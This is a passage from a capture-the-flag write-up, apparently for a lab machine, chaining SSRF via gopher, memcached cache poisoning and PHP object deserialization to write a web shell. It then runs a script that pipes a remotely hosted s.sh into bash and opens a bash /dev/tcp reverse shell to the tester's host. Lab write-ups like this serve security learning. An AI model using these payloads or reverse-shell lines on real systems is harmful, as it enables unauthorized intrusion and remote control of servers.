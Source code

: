 ```php
```

Running the `exploit` gives us following payload:

```bash
root@darkness:~# php exploit.php
http://blog.travel.htb/awesome-rss/custom_feed_url=gopher://0:11211/_set xct_4e5612ba079c530a6b1f148c0b352241%200%20100%20142%0D%0AO%3A14%3A%22TemplateHelper%22%3A2%3A%7Bs%3A20%3A%22%00TemplateHelper%00file%22%3Bs%3A11%3A%22chronos.php%22%3Bs%3A20%3A%22%00TemplateHelper%00data%22%3Bs%3A33%3A%22%3C%3Fphp%20system%28%24_REQUEST%5B%22cmd%22%5D%29%3B%3F%3E%22%3B%7D%0D%0A
```

Now we have to access this printed url to trigger the `cache-poisoning`. Next, we have to access the website again to trigger the `deserialization`. In order to not having to manually do all these steps, I created a simple bash script to do so:

```bash
#!/bin/bash
echo "Stage 1: Cache-poisoning via SSRF (php-object-injection)"
wget "$(php exploit.php)" -q -O /dev/null

echo "Stage 2: Writing web-shell via arbitrary-write upon deserialization"
curl -s 'http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.14.2/customfeed.xml' >/dev/null

echo "Stage 3: Code execution"
timeout 1 curl -s 'http://blog.travel.htb/wp-content/themes/twentytwenty/logs/chronos.php?cmd=curl+10.10.14.2/s.sh+|bash' >/dev/null
```

This script will do the explained steps and then executes a `bash-reverse-shell` hosted on our server (`s.sh`).

The reverse-shell `s.sh` looks as follows:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'
```

If we now start a `nc-listener` and run the `exploit`, we get following output:

```bash
root@darkness:~# bash exploit.sh 
Stage 1: SSRF to cache-poisoning with php-object-injection
Stage 2: Writing web-shell via arbitrary-write upon deserialization
Stage 3: Code execution
```

On our `webserver``, we get two connections:

```bash
root@darkness:~# # python -m http.server
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.189 - - [11/Sep/2020 16:41:50] "GET /customfeed.xml HTTP/1.1" 200 -
10.10.10.189 - - [11/Sep/2020 16:41:50] "GET /s.sh HTTP/1.1" 200 -
```

On our listener we get our `reverse-shell connection`:
